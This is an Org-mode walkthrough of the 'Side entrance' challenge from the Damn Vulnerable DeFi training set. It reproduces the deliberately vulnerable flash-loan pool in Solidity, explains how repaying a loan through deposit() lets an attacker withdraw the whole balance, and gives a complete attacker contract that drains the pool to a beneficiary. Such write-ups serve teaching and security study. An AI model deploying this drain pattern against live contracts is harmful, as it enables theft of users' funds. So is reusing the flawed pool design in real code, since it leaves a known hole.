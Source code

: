#+AUTHOR: Francesco Cannarozzo
* Side entrance
  ../contracts/side-entrance.sol
** Statement
   pool has 1000ETH in balance. Steal them all.
** Files
*** SideEntranceLenderPool.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
     #+END_SRC 
**** Breakdown
***** State
      The contract maintains a mapping of addresses onto uints called *balances*, representing
      ethers deposited by users onto the pool.
***** deposit
      Increases the amount of *msg.sender*'s balance by *msg.value*
***** withdraw
      sets *msg.sender*'s balance to equal to zero, then sends them corresponding value.
***** flashLoan
      usual flashloan checks. However, we notice the pool to trust msg.sender to 
      non-maliciously implement IFLashLoanEtherReceiver interface declared in the file.

      ...That's it, isn'it?

** Exploit
   a malicious contract could call the flashLoan function for the whole pooled value,
   then implement *execute()* as to deposit value received onto the contract.
 since value stored in contract hasn't changed,
   the transaction doesn't revert.

   But now attacker can simply call *withdraw()* and empty the pool.
   
   #+BEGIN_SRC solidity
   pragma solidity ^0.8.0;

import '../../side-entrance/SideEntranceLenderPool.sol';
import "@openzeppelin/contracts/utils/Address.sol";

contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    using Address for address payable;

     SideEntranceLenderPool public pool;
     address public beneficiary;
    
    constructor(address poolAddress, address beneficiaryAddress) {
        pool = SideEntranceLenderPool(poolAddress);
        beneficiary = beneficiaryAddress;
    }

    function attack() public {
        pool.flashLoan(address(pool).balance);

        pool.withdraw();

        payable(beneficiary).sendValue(address(this).balance);
        
    }

    function execute() external payable override{
        pool.deposit{value:msg.value}();
    }

    receive() external payable{

    }
}
   #+END_SRC

 
